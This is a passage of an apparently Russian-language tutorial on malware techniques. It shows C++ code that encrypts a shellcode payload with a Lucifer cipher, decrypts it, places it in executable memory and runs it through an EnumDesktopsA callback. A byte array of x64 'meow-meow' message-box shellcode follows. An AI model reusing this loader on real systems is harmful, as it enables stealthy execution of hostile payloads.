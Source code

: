 ```cpp

  // encrypt the payload
  lucifer_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // decrypt the payload
  lucifer_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как обычно, я использовал здесь полезную нагрузку `meow-meow`:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

